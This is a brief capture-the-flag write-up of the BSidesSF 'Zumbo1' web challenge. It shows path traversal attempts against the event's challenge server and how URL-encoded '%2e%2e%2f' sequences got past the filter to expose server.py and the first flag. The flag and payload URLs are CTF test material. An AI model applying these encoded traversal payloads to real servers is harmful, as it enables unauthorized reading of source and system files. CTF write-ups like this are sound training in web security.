



Challenge: Zumbo1 |
----------------------------------------
Category: Web |
----------------------------------------
20 points |
----------------------------------------

```
Description:

Welcome to ZUMBOCOM....you can do anything at ZUMBOCOM.
Three flags await. Can you find them?

http://zumbo-8ac445b1.ctf.bsidessf.net
Stages 2 and 3 - coming soon!

```

We connect to the site.



```
We look at the source code and find hint: <!-- page: index.template, src: /code/server.py -->

We will try a traversal directory on /code/server.py.

http://zumbo-8ac445b1.ctf.bsidessf.net/../code/server.py (../) mutliple of 1, 2, 3 etc .... don't match!
[Errno 2] No such file or directory: u'code/server.py' 

redirection: on index.template

we test null byte %00:
http://zumbo-8ac445b1.ctf.bsidessf.net/%00/code/server.py
file() argument 1 must be encoded string without null bytes, not unicode
```

```
We have a problem with encoded string!!!!!
. => %2e
/ => %2f

We test with:
http://zumbo-8ac445b1.ctf.bsidessf.net/%2e%2e%2f%2e%2e/code/server.py
```


``` 
Bingo we have the source code and first flag !!!!!!

FLAG: FIRST_FLAG_WASNT_HARD

``` 
